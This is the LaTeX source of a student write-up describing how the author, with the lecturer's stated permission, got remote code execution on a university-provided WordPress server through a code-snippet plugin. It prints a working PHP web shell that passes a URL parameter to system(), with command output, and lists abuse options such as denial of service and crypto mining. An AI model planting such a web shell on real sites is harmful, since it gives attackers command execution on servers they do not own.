%Writeup on how to get RCE (remote code execution) when given administrator access to the Wordpress instances given to us as part of Data Visualization
%Author(s)		: Lukas Mirow
%Date of creation	: 2023-11-12

\documentclass[12pt, a4paper]{article}

\usepackage[utf8]{inputenc}
\usepackage[pdfauthor={Lukas Mirow}, pdftitle={Writeup: How to get remote code execution on the Data Visualization Wordpress instances}]{hyperref}
\usepackage{enumerate}
\usepackage{amsmath}
\usepackage{float}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{xcolor}

\title{Writeup: How to get remote code execution on the Data Visualization Wordpress instances}
\author{Lukas Mirow}

\renewcommand{\labelitemi}{$\bullet$}
\renewcommand{\labelitemii}{$\bullet$}
\renewcommand{\labelitemiii}{$\bullet$}
\renewcommand{\labelitemiv}{$\bullet$}

\definecolor{lightgrey}{rgb}{0.95, 0.95, 0.95}
\definecolor{darkgreen}{rgb}{0, 0.5, 0}
\definecolor{darkblue}{rgb}{0, 0, 0.5}

\lstdefinestyle{mylisting}
{
	backgroundcolor=\color{lightgrey},
	keywordstyle=\color{darkblue},
	stringstyle=\color{darkgreen},
	frame=single,
	framerule=0.5pt,
	breaklines=true,
	breakatwhitespace=false,
	basicstyle=\footnotesize\ttfamily,
}

\begin{document}
	\maketitle
	\section{Introduction}
		\paragraph{}
			In this writeup, I would like to present the process of how to get RCE (remote code execution) on the Wordpress instances given to us as part of the Data Visualization seminar at OsloMet.
		\paragraph{Preface}
			Only do this on your own server or if you have received permission by the owner. I asked the lecturer if I am allowed to do this. Don't get into trouble!
		\subsection{Explanation of terms and context}
			\paragraph{}
				As part of the Data Visualization seminar, we are provided admin-access to a Wordpress server, one per student, by OsloMet. These instances are hosted by Microsoft Azure.
			\paragraph{Remote code execution}
				is a class of vulnerabilities of a computer program which allows an attacker to run whichever code they want on a server without having to be right in front of it, and thus remote. Running whatever code means having the server do anything we want. The intended use of these Wordpress instances is to limit us to use this server to run Wordpress. But using this method, you can do other things as well. However, you are still limited by the capabilities of the server. Since we will be accessing the server via the command line, for example, we will not have the ability to run graphical applications (any applications that open a window).
	\section{How to get RCE?}
		\paragraph{}
			The idea is to upload code to the server that it knows how to execute and persuading it to execute it.
		\paragraph{Uploading and executing code to the server}
			\paragraph{}
				The first thing I would do to make the server execute my code, is to add some PHP code to the 404 page of the website that gets executed every time a URL is requested from the server that does not exist. But the feature of editing these pages, was apparently removed for this instance. Yet our lecturer used my Wordpress instance to run a test of his self-made Wordpress theme and left a handy extension installed on my server: \textit{WPCode Lite}.\\
				
\includegraphics[width=\textwidth]{wpcode.png}
				Using this extension, I created a new PHP code snippet with the following content:
				\begin{lstlisting}[style=mylisting, language=PHP]
echo "<pre style=\"width:100%;\">\n";
if(isset($_GET['cmd']))
{
    system($_GET['cmd']);
}
echo "</pre>\n";
				\end{lstlisting}
				
\includegraphics[width=\textwidth]{code-snippet.png}
				I got the code from \href{https://www.revshells.com}{https://www.revshells.com} under "PHP cmd" and adapted the HTML code around it to my needs. This kind of code is called a web shell because you can send commands to the server, which are executed in a shell (command line) on the server, and the results are shown on the website. They are easy to use and difficult to detect as a defender.\\
				
\includegraphics[width=\textwidth]{snippet-insertion.png}
				I configured this snippet to execute on every page with this short code. On these pages, a code box will appear and when you set the parameter \texttt{cmd} in the URL, its value will be executed on the server and the output displayed in this code box. For my wordpress instance, \texttt{\&cmd=} has to be appended to the URL followed by the command to execute.\\
				
\includegraphics[width=\textwidth]{whoami.png}
				Here, i used the command \texttt{whoami}, which prints the current user that we are logged in as. As you can see, it works!
		\paragraph{Having a look around}
			\subparagraph{}
				Since this is hosted on Microsoft Azure, this is a Windows server. So you can use the same commands you would use on you Windows command prompt, \texttt{cmd.exe}. Because of the size of this PDF and because the output becomes so long that I need to scroll in the code box sometimes, I will not take screenshots of the output but post the command I used and the output as text.
			\subparagraph{}
				\newpage
				This is the output for \texttt{dir}, which creates a directory listing:
				\begin{lstlisting}[style=mylisting]


 Volume in drive C is Windows
 Volume Serial Number is DC63-87E6

 Directory of C:\home\site\wwwroot

11/12/2023  05:55 PM    
          .
11/12/2023  05:55 PM    
          ..
09/11/2023  09:27 AM               105 .user.ini
09/11/2023  09:27 AM             2,549 azuredeploy.json
09/11/2023  11:16 AM               405 index.php
11/12/2023  05:51 PM          (19,915) license.txt
11/12/2023  05:51 PM           (7,399) readme.html
09/11/2023  09:27 AM             1,978 readme.md
09/22/2023  06:16 PM               167 web.config
09/11/2023  11:16 AM             7,211 wp-activate.php
09/11/2023  11:16 AM    
          wp-admin
09/11/2023  11:16 AM               351 wp-blog-header.php
09/11/2023  11:16 AM             2,323 wp-comments-post.php
09/11/2023  11:16 AM             3,013 wp-config-sample.php
09/11/2023  09:28 AM             4,918 wp-config.php
11/12/2023  06:40 PM    
          wp-content
09/11/2023  11:16 AM             5,638 wp-cron.php
11/12/2023  05:51 PM    
          wp-includes
09/11/2023  11:17 AM             2,502 wp-links-opml.php
09/11/2023  11:17 AM             3,927 wp-load.php
11/12/2023  05:51 PM          (50,924) wp-login.php
11/12/2023  05:51 PM           (8,525) wp-mail.php
11/12/2023  05:51 PM            26,409 wp-settings.php
09/11/2023  11:17 AM            34,385 wp-signup.php
09/11/2023  11:17 AM             4,885 wp-trackback.php
11/12/2023  05:51 PM           (3,154) xmlrpc.php
              21 File(s)        190,683 bytes
               5 Dir(s)  59,649,073,152 bytes free
				\end{lstlisting}
				We can see the various files that the nextcloud instance is comprised of. We can see the path of the current directory on the \texttt{C:} drive and we can see there is around 60 GB of space left on the server.
			\subparagraph{}
				Searching through the file system, I found out that Python is installed on the system. Executing \texttt{..\textbackslash..\textbackslash..\textbackslash Python34\textbackslash python.exe -c print(15*15)} returns \texttt{225}. This means we can execute Python code as well!
	\section{Conclusion and computer security preaching}
		So we successfully ran our code remotely on the server, we had a look around, and finally executed some Python code. Since you can execute any code you want on this server, all kinds of nefarious things could be done with this. One of the simplest things that would be possible is "Denial of Service", which means you could prevent the Wordpress server from working correctly. Either by running demanding calculations in a loop and therefore leaving it no time to do the processing it is actually supposed to do, by deleting the files on the server, or filling the storage so that no more space is left, or many other things. More harmful might be using this server to run attacks from. This makes it more difficult for the victims of the executed attack to trace where the attack is coming from as the first trace will lead to Microsoft Azure. Certainly Microsoft would know who rented this server, but what if an attacker would have this kind of access to a server that someone else rented? Then the trace would lead back to that person and not to him. A third and final abuse case I would like to outline is that of using this server's resources to mine cryptocurrencies. Microsoft surely has countermeasures in place to prevent most, and hopefully all, of these attacks. But there are still loopholes as the fact that our webshell was successful shows. Computer security remains a cat-and-mouse game which is why it is important to continuously learn about possible attacks and work on your defenses. And everyone has their part in it: The corporations by prioritizing computer security; the professionals by doing a good job; and you as a user and an individual by choosing secure passwords, limiting the amount of unnecessary information you give out, and following other best-practices.
\end{document}
